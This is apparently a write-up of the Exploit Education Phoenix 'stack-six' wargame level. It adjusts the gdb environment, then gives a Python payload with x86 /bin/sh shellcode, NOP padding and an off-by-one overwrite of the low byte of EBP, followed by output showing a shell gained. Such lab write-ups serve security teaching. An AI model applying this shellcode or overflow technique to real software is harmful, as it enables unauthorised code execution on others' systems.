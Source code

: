 ```bash
Welcome home, 1Ph//shh/binS̀D_
process 662 is executing new program: /bin/dash
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?
$ ls
[Detaching after fork from child process 666]
final-one   format-four   format-two   heap-three  net-one   stack-five  stack-six    stack-zero
final-two   format-one    format-zero  heap-two    net-two   stack-four  stack-three
final-zero  format-three  heap-one     heap-zero   net-zero  stack-one   stack-two
```

However, since we forgot about the environment difference between gdb and outside, it does not work standalone. Let's fix that.
In order to make it work outside we need to fix the target addresses used in our exploit since they will be shifted due to gdb having additional environment variables in front of the stack. The process is the same: look at the memory just before leaving `main`.

To provide the same environment, we need to run the following in gdb:

```bash
unset env LINES
unset env COLUMNS
set env _ /opt/phoenix/i486/stack-six
```

Then we can determine a new LSB for EBP so we can control EIP reliably:

1. Set LSB of EBP (buf[127]) so that EBP-0x4 is controlled by user:
    0x54

# Final Exploitation

```python
buf = "\x08\x04\x99\x46"[::-1] # top of "new stack" -> will be EIP
buf += "\x90" * 8 # some leeway
buf += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" # /bin/sh
buf += "\x90" * (122 - len(buf)) # padding
buf += "\x08\x04\x99\x42"[::-1] # new ESP
buf += "\x54" # LSB for EBP, will make ECX = *(EBP - 0x4)
print buf
```

```bash
user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python ~/stack-six.py`
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome home, 1Ph//shh/binS̀T_
$ whoami
phoenix-i386-stack-six
```

PWNED!

# Further reference

Article on one-byte overflows: https://www.cgsecurity.org/exploit/P55-08
